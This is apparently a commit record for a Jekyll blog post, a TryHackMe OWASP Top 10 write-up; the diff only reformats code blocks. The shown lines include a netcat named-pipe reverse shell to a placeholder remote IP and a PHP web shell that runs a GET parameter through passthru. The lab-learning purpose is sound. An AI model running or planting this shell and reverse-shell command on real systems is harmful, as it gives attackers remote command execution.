

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 900 px high, scrolled down 1476 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -49,13 +49,13 @@
 {% capture code %}{% raw %}mkfifo /tmp/p ; nc <remote-ip> 4444 0</tmp/p | /bin/sh -i 2>&1 | tee /tmp/p{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 The sample php shell code from `evilshell.php` is as below.
-{% capture code %}<?php
-  if (isset($_GET["commandString"])) {
-    $command_string = $_GET["commandString"];
-    try { passthru($command_string); }
-    catch (Error $error) { echo "<p class=mt-3><b>$error</b></p>"; }
-  }
-?>{% endcapture %} {% include code.html code=code %}
+{% capture code %}{% raw %}<?php
+    if (isset($_GET["commandString"])) {
+        $command_string = $_GET["commandString"];
+        try { passthru($command_string); }
+        catch (Error $error) { echo "<p class=mt-3><b>$error</b></p>"; }
+    }
+?>{% endraw %}{% endcapture %} {% include code.html code=code lang="php"%}
 
 To read motd data in ubuntu, use the file `cat /etc/update-motd.d/00-header`.
 
```
